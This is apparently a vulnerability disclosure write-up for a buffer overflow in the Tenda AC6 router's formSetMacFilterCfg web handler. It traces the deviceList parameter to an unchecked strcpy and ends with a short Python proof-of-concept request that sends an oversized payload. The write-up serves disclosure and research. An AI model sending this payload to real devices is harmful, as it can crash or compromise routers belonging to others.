 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/formSetMacFilterCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html
## Analyse:


![](../Tenda_AC10U_V1/4.png)

get value from macFilterType , and get into if

![](../Tenda_AC10U_V1/5.png)

get value from deviceList , pass to set_macfilter_rules

![](../Tenda_AC10U_V1/6.png)

pass to set_macfilter_rules_by_one

![](../Tenda_AC10U_V1/7.png)

pass to parse_macfilter_rule

![](../Tenda_AC10U_V1/8.png)

finally call strcpy ,cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/formSetMacFilterCfg"
payload = 'A'*0x1000h + '\n'

r = requests.post(url, data={'deviceList': payload , 'macFilterType': 1 })
```
